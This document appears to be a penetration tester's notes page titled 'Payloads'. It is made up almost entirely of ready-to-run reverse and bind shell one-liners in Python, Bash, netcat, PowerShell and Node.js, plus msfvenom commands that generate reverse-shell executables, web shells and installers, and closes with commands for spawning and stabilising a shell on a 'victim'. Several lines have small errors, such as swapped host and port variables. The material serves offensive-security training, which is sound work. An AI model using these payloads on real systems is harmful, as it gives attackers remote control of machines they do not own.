 # Payloads



## **Reverse Shell Generator**

Great site to just add your IP and port and gives you a list of many options for shells.

{% embed url="https://www.revshells.com/" %}



**Python Bind Shell**

```
python -c 'import socket,os,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(("0.0.0.0",443));s.listen(5);c,a=s.accept();os.dup2(c.fileno(),0);os.dup2(c.fileno(),1);os.dup2(c.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'
```

**Python Reverse Shell**

```
export RHOST="10.10.10.10"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

**Bash Reverse Shells**

```
/bin/bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

## **Msfvenom Reverse Shells**

#### **Staged Payloads for Windows - x86**

```
msfvenom -p windows/shell/reverse_tcp LHOST=$KALIIP LPORT=$KALIPORT -f exe > shell-x86.exe
```

#### **Staged Payloads for Windows - x64**

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$KALIIP LPORT=$KALIPORT -f exe > shell-x64.exe
```

#### **Stageless Payloads for Windows - x86**&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALIIP LPORT=$KALIPORT -f exe > shell-x86.exe
```

#### **Stageless Payloads for Windows - x64**&#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=$KALIPORT -f exe > shell-x64.exe
```

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=$PORT -f elf -o rshell.elf
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=$LPORT -f asp -o rshell.asp
```

```
msfvenom -p php/reverse_php LHOST=$LHOST LPORT=$KALI -f raw -o rshell.php
```

```
msfvenom -p windows/shell_reverse_tcp LHOST= $KALI LPORT=$LPORT -f hta-psh -o rshell.hta
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=$LPORT -f powershell
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=$LPORT -f msi -o rshell.msi
```

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$KALI LPORT=$LPORT -f war > rshell.war
```

#### **Netcat Reverse Shells**

```
sudo nc -nv 10.10.10.10 443 -e /bin/bash
```

```
nc -nv 10.10.10.10 443 -e "/bin/bash"
```

#### **PowerShell Reverse Shell**

```
'powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("$KALI",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

#### **JavaScript Reverse Shell**

```
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4444, $KALI", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

#### Python Reverse Shell

```
from os import dup2
from subprocess import run
import socket
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("$KALI",1337)) 
dup2(s.fileno(),0) 
dup2(s.fileno(),1) 
dup2(s.fileno(),2) 
run(["/bin/bash","-i"])
```

#### **Upgrade to a PTY Shell**

```
echo "import pty; pty.spawn('/bin/bash')" > /tmp/shell.py
python /tmp/shell.py
export TERM=xterm # be able to clear the screen, etc.
```

#### HTA

Under section _'An HTML Application - HTA'_

{% embed url="https://tryhackme.com/room/weaponization" %}

#### VBS

Under section _'Visual Basic for Application - VBA'_

{% embed url="https://tryhackme.com/room/weaponization" %}

## **Full TTYs**

### **Useful Links**

&#x20;[https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

### **Spawn shells**

Go through the list one by one until something works

**Victim**

```
python -c 'import pty; pty.spawn("/bin/sh")'
python2 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
echo os.system('/bin/bash')
/bin/sh -i
script -qc /bin/bash /dev/null
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
IRB: exec "/bin/sh"
vi: :!bash
vi: :set shell=/bin/bash:shell
nmap: !sh
```

**Victim**

```
ctrl + Z
stty raw -echo;fg
```

